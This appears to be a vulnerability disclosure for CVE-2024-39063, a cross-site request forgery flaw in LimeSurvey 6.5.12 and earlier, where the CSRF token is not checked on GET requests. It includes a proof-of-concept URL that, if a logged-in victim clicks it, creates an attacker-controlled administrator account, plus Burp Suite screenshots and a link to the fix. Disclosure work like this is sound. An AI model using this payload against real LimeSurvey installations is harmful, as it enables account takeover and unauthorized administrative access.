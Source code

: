 <b>Description</b>:

LimeSurvey <= 6.5.12 is vulnerable to Cross Site Request Forgery (CSRF). The YII_CSRF_TOKEN is only checked when passed in the body of POST requests, but the same check isn't performed in the equivalent GET requests. 

<b>PoC</b>:

To exploit this vulnerability an attacker could send the following link to the victim: 

http://example.com/index.php?r=userManagement/applyedit&YII_CSRF_TOKEN=&User%5Buid%5D=&User%5Busers_name%5D=ATTACKER_USERNAME&User%5Bfull_name%5D=ATTACKER_NAME&User%5Bemail%5D=ATTACKER_EMAIL&expires=EXPIRATION_DATE&preset_password=1&User%5Bpassword%5D=ATTACKER_PASSWORD&password_repeat=ATTACKER_PASSWORD&random_example_password=vDfSU49xlEeG&YII_CSRF_TOKEN=

When the victim clicks the link, a new administrative account is created with the attacker's password:

1. CSRF Token checked in the POST request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/40f39095-dbc8-4413-af0c-ffd2a36b772a)

2. CSRF Token isn't checked in the GET request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/990d505e-3009-4d30-8a00-951a09b3bc56)

3. CSRF PoC with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/dd95012b-3788-4d7c-a2a5-211200ab0df8)


4. CSRF PoC2 with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/c1a4706e-a480-460e-8553-8baa11a23549)

<b>References:</b>
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-39063
- https://github.com/LimeSurvey/LimeSurvey/pull/3877
